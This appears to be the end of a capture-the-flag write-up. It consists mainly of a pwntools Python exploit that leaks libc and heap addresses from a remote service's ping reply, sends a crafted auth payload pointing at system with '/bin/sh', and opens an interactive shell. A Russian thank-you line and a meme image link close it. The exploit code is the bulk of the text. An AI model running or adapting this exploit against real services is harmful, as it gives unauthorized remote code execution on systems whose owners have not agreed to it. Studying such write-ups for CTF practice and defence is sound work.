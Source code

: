 ```python

    cmd_func(pc, cmd_ping, 0x44, 'ping' + '\x00' * 0x40)
    resp = ''
    while len(resp) != 0x60:
        resp += pc.recv(0x60)

    libc_base = u64(resp[74:82]) - 0x39fb0
    heap_base = u64(resp[82:90]) - 0x10
    
    log.success('heap base @ ' + hex(heap_base))
    log.success('libc base @ ' + hex(libc_base))

    cmd = '/bin/sh\x00'

    cmd_func(pc, cmd_auth, 0xa9, p8(0xff), cmd + '\x01' * (0x88 - len(cmd)) + \
            p64(0x120) + p64(1) + p64(heap_base + 0x60) + \
            p64(libc_base + system))

    cmd_func(pc, cmd_quit, 0)

    pc.interactive()


if __name__ == '__main__':
    while True:
        pc = remote(sys.argv[1], 4242)
        try:
            main(pc)
            break
        except Exception:
            pass
        finally:
            pc.close()
```

Спасибо `@korniltsev` за крутой сервис! 

![meme](https://www.meme-arsenal.com/memes/6e251523d3ceb09308c3a3a82fb9dcc4.jpg)



